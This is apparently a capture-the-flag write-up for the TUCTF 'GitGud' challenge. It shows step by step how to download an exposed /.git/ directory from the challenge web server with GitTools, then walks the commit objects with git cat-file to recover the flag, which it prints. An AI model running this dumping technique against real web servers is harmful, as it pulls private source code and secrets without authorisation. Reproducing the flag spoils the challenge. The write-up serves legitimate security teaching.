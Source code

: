 # Writeup

### Challenge available at ```http://gitgud.tuctf.com```

# Tool
Use this tool to dig for ```/.git/``` folder [GitTools](https://github.com/internetwache/GitTools)

# Solve
Use tool I recommended above to download `/.git/` folder by command
```./GitTools/Dumper/gitdumper.sh http://gitgud.tuctf.com/.git/ GitGud```

Then we extract it 
```./GitTools/Extractor/extractor.sh GitGud GitGudExtracted```

After that we cat the file `GitGud/.git/logs/refs/heads/master` and you will see 
```
2c6190537a2655121ccb9647765fa99687afec25 22f63ceab55efe05c5448676a3470b13b6545f74 Jimmy <jimmy@jimmyrocks.site> 1511297558 +0000        commit: Added flag
```
Using `git cat-file` command

Then do the following
```
quanghuynh@ubuntu:~/Desktop/Tools/GitTools/Git-Gud$ git cat-file -p 2c6190537a2655121ccb9647765fa99687afec25
tree b0f30828b576f99e0f7b906b751a32969182913f
parent cfb7e1cbb11d866d4084920fde50077d26bb0953
author Jimmy <jimmy@jimmyrocks.site> 1511297071 +0000
committer Jimmy <jimmy@jimmyrocks.site> 1511297071 +0000

Updated blog

quanghuynh@ubuntu:~/Desktop/Tools/GitTools/Git-Gud$ git cat-file -p 22f63ceab55efe05c5448676a3470b13b6545f74
tree 61315dcca584181b2580b1cdf6e5d36f0323a752
parent 2c6190537a2655121ccb9647765fa99687afec25
author Jimmy <jimmy@jimmyrocks.site> 1511297558 +0000
committer Jimmy <jimmy@jimmyrocks.site> 1511297558 +0000

Added flag
quanghuynh@ubuntu:~/Desktop/Tools/GitTools/Git-Gud$ git cat-file -p 61315dcca584181b2580b1cdf6e5d36f0323a752
100644 blob 353589fc6a0a098f208cd7b2a391ecc4b65d8b56    README.md
100644 blob 2a31291a3ab4f8f05e9a421617abaa524da0b89f    about.html
100644 blob b8665ba15c1c9c511dba4c89d82d2fe521d42b28    blog.html
100644 blob 25121cd6f15776125c846b78e6e3caef9f4717df    contact.html
100644 blob a0438b2b3f9c41b14ff02eae8ece9a4384bdcbf9    flag
100644 blob 1a348966ee0bee969c0ab166510ef08535ff13d4    gitgud.gif
100644 blob d833bbffb80d9a1d58acf76854a8d2c905926dff    index.html
quanghuynh@ubuntu:~/Desktop/Tools/GitTools/Git-Gud$ git cat-file -p a0438b2b3f9c41b14ff02eae8ece9a4384bdcbf9

TUCTF{D0nt_Us3_G1t_0n_Web_S3rv3r}
```

# Flag 
TUCTF{D0nt_Us3_G1t_0n_Web_S3rv3r}
